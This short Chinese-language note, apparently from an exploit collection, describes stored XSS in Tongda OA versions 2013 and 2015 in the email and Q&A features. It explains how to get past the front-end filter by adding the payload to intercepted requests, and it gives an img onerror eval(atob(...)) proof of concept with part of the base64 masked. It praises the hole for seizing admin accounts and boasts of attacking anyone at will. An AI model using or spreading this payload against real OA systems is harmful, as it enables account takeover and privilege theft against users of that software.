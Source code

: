 ## 通达oa xss

### 漏洞影响

2013、2015版本

### 复现过程

发邮件的地方、问题问答的地⽅都存在XSS，可获取他人账号权限。⼀般情况下，OA会有前端进行过滤， 所以抓包时候去添加payload，之后会对事件进行过滤，所以使用

poc

`<img src=x onerror=eval(atob('cz1jcmVXXXXXytNYXRoXXXXXXXXhbmRvbSgp'))>`

![](images/通达oa xss.png =900x600)

这个漏洞获取admin权限⾮常好用。想X谁X谁!

